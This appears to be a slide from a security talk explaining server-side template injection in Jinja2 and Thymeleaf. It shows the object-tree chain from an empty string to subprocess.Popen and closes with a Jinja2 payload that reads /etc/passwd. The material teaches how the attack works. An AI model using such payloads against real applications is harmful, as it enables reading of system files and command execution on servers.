

# Escaping the Sandbox
In languages like Python (Jinja2) or Java (Thymeleaf), every object is linked to the "Global" state or the "Runtime" environment. An attacker doesn't just want to do math; they want to climb the object tree until they hit a sensitive function (like os.system or java.lang.Runtime).

The Chain of Command (Python/Jinja2 Example):
 Start with an empty string: ‘’
 Access its class: ''.__class__
 Go to the base object: ''.__class__.__mro__[1]
 List all subclasses: .__subclasses__()
 Find a class that allows command execution (like subprocess.Popen) and call it.

Payload Example: {{ ''.__class__.__mro__[1].__subclasses__()[407]('/etc/passwd').read() }}